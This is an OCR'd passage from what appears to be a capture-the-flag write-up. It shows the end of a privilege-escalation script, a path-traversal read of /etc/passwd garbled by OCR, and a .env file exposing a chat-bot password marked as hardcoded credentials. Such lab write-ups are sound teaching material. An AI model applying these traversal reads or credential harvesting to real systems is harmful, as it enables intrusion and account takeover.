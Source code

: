         echo ""
        echo "[*] Run 'su - $userName', followed by 'sudo su' to gain root access"
        <!=====End of file ../pk.sh=====>
      ```

/etc/shadow!!!

* file ../../../etc/passwd \<!=====Contents of file ../../../etc/passwd=====> \<!=====End of file ../../../etc/passwd=====> root❌0:0:root:/root:/bin/bash bin❌1:1:bin:/bin:/sbin/nologin daemon❌2:2:daemon:/sbin:/sbin/nologin adm❌3:4:adm:/var/adm:/sbin/nologin lp❌4:7:lp:/var/spool/lpd:/sbin/nologin sync❌5:0:sync:/sbin:/bin/sync shutdown❌6:0:shutdown:/sbin:/sbin/shutdown halt❌7:0:halt:/sbin:/sbin/halt mail❌8:12:mail:/var/spool/mail:/sbin/nologin operator❌11:0:operator:/root:/sbin/nologin games❌12💯games:/usr/games:/sbin/nologin ftp❌14:50:FTP User:/var/ftp:/sbin/nologin nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin dbus❌81:81:System message bus:/:/sbin/nologin systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin polkitd❌998:996:User for polkitd:/:/sbin/nologin geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin qemu❌107:107:qemu user:/:/sbin/nologin apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin chrony❌993:987::/var/lib/chrony:/sbin/nologin libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin radvd❌75:75:radvd user:/:/sbin/nologin clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin sssd❌983:981:User for sssd:/:/sbin/nologin colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin gdm❌42:42::/var/lib/gdm:/sbin/nologin gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin tcpdump❌72:72::/:/sbin/nologin mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin mongod❌976:974:mongod:/var/lib/mongo:/bin/false rocketchat❌1001:1001::/home/rocketchat:/bin/bash dwight❌1004:1004::/home/dwight:/bin/bash \<!=====End of file ../../../etc/passwd=====>

```
file ../.vim/.netrwhist
	<!=====Contents of file ../.vim/.netrwhist=====>
	<!=====End of file ../.vim/.netrwhist=====>
	let g:netrw_dirhistmax =10
	let g:netrw_dirhist_cnt =1
	let g:netrw_dirhist_1='/home/dwight/hubot/node_modules/@rocket.chat/sdk/dist/lib'
	<!=====End of file ../.vim/.netrwhist=====>

***file ../../dwight/hubot/.env*** --HARDCODED CREDENTIALS
	<!=====Contents of file ../../dwight/hubot/.env=====>
	export ROCKETCHAT_URL='<http://127.0.0.1:48320>'
	export ROCKETCHAT_USER=recyclops
	export ROCKETCHAT_PASSWORD=Queenofblad3s!23
	export ROCKETCHAT_USESSL=false
	export RESPOND_TO_DM=true
	export RESPOND_TO_EDITED=true
	export PORT=8000
	export BIND_ADDRESS=127.0.0.1
	<!=====End of file ../../dwight/hubot/.env=====>
```

